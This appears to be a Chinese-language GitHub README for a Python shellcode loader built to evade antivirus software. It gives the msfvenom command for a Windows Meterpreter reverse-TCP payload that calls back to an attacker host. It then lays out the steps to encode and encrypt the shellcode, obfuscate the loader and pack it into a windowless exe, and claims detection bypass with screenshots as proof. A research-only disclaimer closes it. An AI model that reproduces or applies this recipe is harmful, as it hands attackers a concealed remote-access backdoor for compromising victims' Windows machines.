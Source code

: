 # python-shellcode-loader

<a name="ptTMq"></a>
## 简单介绍
免杀方式 msfvenom生成raw格式的shellcode-->base64-->XOR-->AES<br />将python代码缩小并混淆最后生成exe<br />目前过DF、360和火绒  virustotal：7/66过卡巴斯基、迈克菲等
<a name="H2jnt"></a>
## 获取项目
git clone https://github.com/HZzz2/python-shellcode-loader.git

cd python-shellcode-loader

pip install -r .\requirements.txt

## 生成shellcode
#生成shellcode<br />`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw`
<a name="rNUTI"></a>
## base64编码shellcode并替换jiami.py中的值
#base64<br />`base64 -w 0 -i rev.raw > rev.bs64`<br />`cat rev.bs64`<br />复制base64的值替换jiami.py中payload       也就是 第二十四行 sc='payload' 
<a name="uXwYU"></a>
## 加密base64并替换main.py中的值
#加密base64后的shellcode<br />`python3 jiami.py`<br />#会生成一个aes-xor.txt的文件，复制文件里的值(经过XOR和AES加密后)<br />复制的值替换main.py中的payload   也就是第四十一行 jiami_sc='payload'
<a name="RhzZp"></a>
## 缩小和混淆py代码
<a name="K5dP3"></a>
### 缩小python代码
`pyminify main.py --output main-mini.py`
<a name="PTqkf"></a>
### 混淆main-mini.py中的python代码
[https://pyob.oxyry.com/](https://pyob.oxyry.com/)  在线混淆<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/26697321/1654524591386-7385c972-05e4-4761-bac3-311ae4ab2b0c.png#clientId=ufd1019e1-55bc-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=531&id=u32a8913b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=664&originWidth=1919&originalType=binary&ratio=1&rotation=0&showTitle=false&size=192572&status=done&style=none&taskId=uf5d03036-4fc8-4141-aec3-77143fc268e&title=&width=1535.2)<br />将混淆后的代码保存到一个文件中，比如文件名为:main-mini-ob.py
<a name="s0SXj"></a>
## 打包成可执行文件exe
#打包成exe<br />`pyinstaller.exe -Fw -i .\setting.ico --key=leslie .\main-mini-ob.py`<br />-F 打包为单文件 -w 不显示窗口   -i ico图标文件  --key  加密字节码的密钥<br />等待打包完成。。。。<br />打包好后的可执行程序在dist目录中
<a name="dr6Hv"></a>
## 流程图
![](https://cdn.nlark.com/yuque/0/2022/jpeg/26697321/1654524239719-d5ff881a-602c-4508-81b8-8e14c0d41595.jpeg)
<a name="SyXYB"></a>
## 检测图


### DF
![image](https://user-images.githubusercontent.com/22775890/172209887-134b5107-353b-45e2-a3b6-9e65b5189b8c.png)


### 火狐
![image](https://user-images.githubusercontent.com/22775890/172209706-1634bd75-7fe4-4844-bf95-bb8e3dea0540.png)


### 360杀毒
![image](https://user-images.githubusercontent.com/22775890/172209912-86663b43-9afe-40ec-ba1a-dd6951f04ac3.png)


### 360安全卫士云查杀
![image](https://user-images.githubusercontent.com/22775890/172209928-b96f0201-2b4d-4efb-bf4c-33df8ed3ce03.png)


### virustotal
![image](https://user-images.githubusercontent.com/22775890/172209945-6aa0f8d1-dbe2-443d-9bf1-b127fe271aa9.png)


https://user-images.githubusercontent.com/22775890/172209225-080c2549-45cc-4135-a907-38738ab42df5.mp4



## 免责声明
仅供安全研究与教学之用，如果使用者将其做其他用途，由使用者承担全部法律及连带责任，本人不承担任何法律及连带责任。











